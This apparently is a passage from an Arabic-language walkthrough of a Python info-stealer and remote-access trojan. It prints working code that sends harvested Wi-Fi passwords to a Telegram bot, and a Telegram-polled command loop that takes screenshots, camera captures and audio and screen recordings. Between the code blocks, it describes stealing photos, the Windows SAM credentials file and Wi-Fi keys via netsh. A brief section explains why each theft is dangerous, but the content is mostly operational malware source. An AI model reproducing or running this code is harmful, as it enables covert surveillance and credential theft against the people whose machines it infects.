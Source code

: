 ```python
            message = f"📶 كلمات مرور شبكات Wi-Fi من {device_name}:\n\n" + "\n\n".join(wifi_list)
            send_to_telegram_split(message)
        else:
            send_to_telegram_split(f"⚠️ لا توجد شبكات Wi-Fi مخزنة على {device_name}.")
    except Exception as e:
        send_to_telegram_split(f"⚠️ خطأ في استخراج كلمات مرور Wi-Fi من {device_name}: {str(e)}")
```

- **سرقة الصور**:
  - بيدوّر في مجلدات زي "الصور"، "سطح المكتب"، "المستندات"، "التحميلات"، وكل درايف C.
  - بيبص على أي ملف بينتهي بـ `.jpg`، `.jpeg`، أو `.png`.
  - كل صورة يلاقيها، بيبعتها لتيليجرام.
  - بيحسب عدد الصور اللي بعتها وبيبعت رسالة في الأخر يقول إنه خلّص وكام صورة بعت.
- **سرقة ملف SAM**:
  - بيحاول يفتح ملف إسمه `SAM` في `C:\Windows\System32\config\SAM`.
  - الملف ده فيه بيانات حسابات المستخدمين في الويندوز.
  - لو لقاه، بيبعت الملف كله لتيليجرام زي ما هو.
  - لو ما لقاهوش، بيبعت رسالة يقول إنه فشل.
- **سرقة باسوردات الواي فاي**:
  - بيستخدم أمر `netsh wlan show profiles` عشان يلاقي كل شبكات الواي فاي اللي اتوصلت بيها قبل كده.
  - بياخد أسماء الشبكات وبيستخدم أمر `netsh wlan show profile name="اسم الشبكة" key=clear` عشان يطلّع كلمة السر.
  - بيحط كل شبكة وكلمة السر في لستة، زي:
    ```
    📡 الشبكة: MyWiFi
    🔑 كلمة المرور: Pass123
    ```
  - بيبعت اللستة دي لتيليجرام.
- **ليه خطير؟**:
  - الصور ممكن تكون فيها حاجات شخصية زي صور عيلتك أو مستندات.
  - ملف SAM لو اتسرق، حد فاهم ممكن يستخدمه عشان يخترق حسابات الويندوز.
  - باسوردات الواي فاي بتخلّي حد يدخل على شبكتك ويسرق بياناتك أو يعمل حاجات غير قانونية من شبكتك.

---

#### 7. **التحكم عن بُعد**
```python
def fetch_latest_telegram_message():
    global last_update_id
    try:
        url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/getUpdates?offset={last_update_id[0] + 1 if last_update_id[0] else 0}"
        response = requests.get(url, timeout=10).json()
        if "result" in response and response["result"]:
            for update in response["result"]:
                last_update_id[0] = update["update_id"]
                msg = update.get("message", {})
                text = msg.get("text")
                if text:
                    send_to_telegram_split(f"📩 تم استلام الأمر على {device_name}: {text}")
                    if text == "!screenshot":
                        screenshot_path = os.path.join(tempfile.gettempdir(), "screenshot.png")
                        pyautogui.screenshot().save(screenshot_path)
                        send_photo_to_telegram(screenshot_path)
                        os.remove(screenshot_path)
                        send_to_telegram_split(f"📷 تم إرسال لقطة الشاشة من {device_name}.")
                    elif text == "!camera":
                        capture_camera()
                    elif text == "!record_audio":
                        threading.Thread(target=record_audio, args=(5,), daemon=True).start()
                        send_to_telegram_split(f"🎤 جاري تسجيل الصوت (5 ثوانٍ) على {device_name}...")
                    elif text == "!record_screen":
                        threading.Thread(target=record_screen, args=(10,), daemon=True).start()
```